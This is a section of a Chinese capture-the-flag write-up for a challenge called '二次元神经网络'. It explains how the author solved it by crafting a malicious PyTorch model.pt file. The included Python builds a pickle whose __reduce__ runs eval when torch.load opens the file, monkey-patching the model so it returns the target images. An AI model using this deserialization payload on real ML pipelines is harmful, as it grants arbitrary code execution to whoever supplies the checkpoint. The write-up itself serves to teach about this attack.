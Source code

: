 ## 二次元神经网络

一开始我真的就在琢磨怎么训练模型。毕竟往年也有 adversarial attack 这种纯 deep learning 的题，我想今年应该也有一道吧。考虑的思路是倒推生成原图所需要的最后一个 Linear layer 的参数。但最后一个 Linear layer 输入只有 8 个 features，感觉不够编码10张图。不知道是不是改成8张图就能这么做出来。

最终就跟官方题解一样了，利用 `torch.load` 或者说 `pickle` 做远程代码执行。生成 `model.pt` 文件的代码在下面。我没注意到后端执行出错也会读 `result.json`，所以代码复杂了点，monkey patch 了 `SimpleGenerativeModel` 类使其返回10张原图，还返回了全 0 的 state dict 保证 `model.load_state_dict` 成功。

```python
import base64
import io
import json

import matplotlib.image
import torch

from models import SimpleGenerativeModel


class BadPickle:
    def __init__(self, targets, state_dict_spec):
        self.targets = targets
        self.state_dict_spec = state_dict_spec

    def __reduce__(self):
        return eval, ("(setattr(__import__('models').SimpleGenerativeModel, '__call__', lambda *a: targets) == '') or "
                      "{k: __import__('torch').zeros(v) for k, v in state_dict_spec.items()}", {
            "targets": self.targets,
            "state_dict_spec": self.state_dict_spec,
        })


n_tags = 63
dim = 8
imag_shape = (64, 64, 3)
model = SimpleGenerativeModel(n_tags=n_tags, dim=dim, img_shape=imag_shape)

state_dict = model.state_dict()
state_dict_spec = {}
for k, v in state_dict.items():
    state_dict_spec[k] = tuple(v.size())

targets = torch.load("dataset/pixels_10.pt")
gen_imgs = []
for i in range(targets.size(0)):
    with io.BytesIO() as out_io:
        matplotlib.image.imsave(out_io, targets[i].numpy(), format="png")
        png_b64 = base64.b64encode(out_io.getvalue()).decode()
        gen_imgs.append(png_b64)

json_content = json.dumps({"gen_imgs_b64": gen_imgs})

torch.save(BadPickle(targets, state_dict_spec), "checkpoint/model.pt")
```

